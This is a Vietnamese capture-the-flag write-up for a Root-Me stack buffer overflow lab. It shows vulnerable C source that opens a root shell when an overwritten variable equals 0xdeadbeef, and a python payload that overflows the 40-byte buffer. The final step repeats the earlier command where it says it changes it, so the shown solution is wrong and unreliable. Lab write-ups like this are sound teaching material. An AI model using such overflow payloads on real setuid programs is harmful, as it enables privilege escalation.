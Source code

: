 # Co-che-hoat-dong-cua-ma-doc - challenge 1 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 1 :  ssh -p 2222 app-systeme-ch13@challenge02.root-me.org
```

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:

```C
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
Rõ ràng ta thấy để vào được shell bằng câu lệnh:
```C 
system("/bin/bash"); 
``` 
thì ta cần biến check có giá trị là 0xdeadbeef, mặt khác ở hai câu lệnh 
```C   
printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check); 
``` 
ta thấy chương trình sẽ in ra hai giá trị của buf và check, cho nên ta sẽ nghĩ tới việc ghi đè giá trị buf qua giá trị check ở trong bộ nhớ.
Mặt khác, vì biến buf được cấp bộ nhớ là 40 bytes cho nên trước hết ta sẽ ghi đầy 40 bytes này, sau đó ghi tiếp các bytes khác, các bytes này sẽ tiếp tục ghi lấn tới và ghi đè lên vùng nhớ của biến check, ta thử in 40 kí tự A và thêm 4 kí tự LDLD vào thì ta thấy biến buf và check có giá trị như sau:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'LDLD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x4c444c44

You are on the right way!
```
Như kết quả in ra ta thấy biến check nhận giá trị là 0x4c444c44 ~ LDLD (hex -> text). Do đó để biến check nhận giá trị là 0xdeadbeef, ta sẽ thay đổi câu lệnh thành:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'LDLD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x4c444c44

You are on the right way!
```
